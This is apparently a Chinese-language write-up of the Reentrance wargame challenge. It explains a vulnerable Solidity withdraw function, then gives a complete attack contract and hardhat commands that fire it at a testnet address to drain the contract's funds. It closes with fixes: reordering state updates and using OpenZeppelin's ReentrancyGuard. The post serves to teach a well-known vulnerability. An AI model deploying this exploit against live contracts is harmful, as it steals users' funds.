

<!-- more -->

#### 目标: 盗走如下合约中的所有token

##### 先看代码:

##### 很明显 大名鼎鼎的重入攻击:star2:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }
//先转账与外部合约交互再处理自身合约数据的话很容易就会被恶意合约利用,导致只需要一次恶意调用就能触发此合约发起多笔交易
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

##### 完整poc利用脚本:point_right:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Reentrance.sol";

contract ReentranceHack{
  
Reentrance public reentrance;
 uint256 public amount; 

//设定攻击目标和存入欺骗金额
function setTragetandAmount(address payable addr ) public payable {
   reentrance  = Reentrance(payable(addr));
   amount = msg.value;
}

function startAttack() public {
    //新版调用合约实例函数并转账语法 
    reentrance.donate{value:amount}(address(this)); //调用donate函数存钱,用于重复提现
    //旧版
    //  reentrance.donate.value(amount).gas(4000000)(address(this));

    ReeAttack();
  }

   function ReeAttack() private{
     if( address(reentrance).balance > 0 ){
        //只能存入多少提现多少
        reentrance.withdraw(amount);
     }
   }
  receive() external payable {
      //接收到转账后重新再发起提现
     ReeAttack();
  }

}
```

##### 关于如何使用ReentranceHack-POC::gear:

```js
/*
hardhat-ethers环境示例 
合约部署脚本懒得写的话直接REMIX-IDE部署就好
*/
 yarn hardhat console --network Goerli
//获取合约实例
 const ree = await ethers.getContractAt('ReentranceHack','0x9A82F75965e9F9eB784462A614751F1229331Ca7')
 //设定攻击目标和初始金额
 await ree.setTragetandAmount('0x9256cC1Fb0B1fC7082D463A6e45231D31901A6aE',{value:1000000000000000})
//开始攻击
await ree.startAttack()
```

##### 最终效果:tada:



##### 那么如何防范重入攻击呢:grey_question:

```solidity
// 方法一:最简单就是先修改合约数据,但是这种方法一旦转账失败就会导致合约用户的数据错误问题
 function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
    //先减去余额
      balances[msg.sender] -= _amount;
     //再进行转账
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
    }
  }
// 方法二:继承使用openzeppelin的ReentrancyGuard库(推荐)
//那么ReentrancyGuard是怎么实现防范重入攻击的呢,还是看源码.

   uint256 private constant _NOT_ENTERED = 1; 
    uint256 private constant _ENTERED = 2;
    uint256 private _status;
//无用户调用函数 状态为1,否则为2
    constructor() {
        _status = _NOT_ENTERED;
    }

    modifier nonReentrant() {
    //如果状态为2不允许执行业务逻辑
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");
        //函数状态为1,先设定函数状态为2再进入实际业务逻辑
        _status = _ENTERED;

        _;
    //业务逻辑执行完成后再重新设定状态为1
        _status = _NOT_ENTERED;
    }
//这种实现方法类似于分布式锁,比简单的调整业务逻辑来防范攻击更安全有效

```

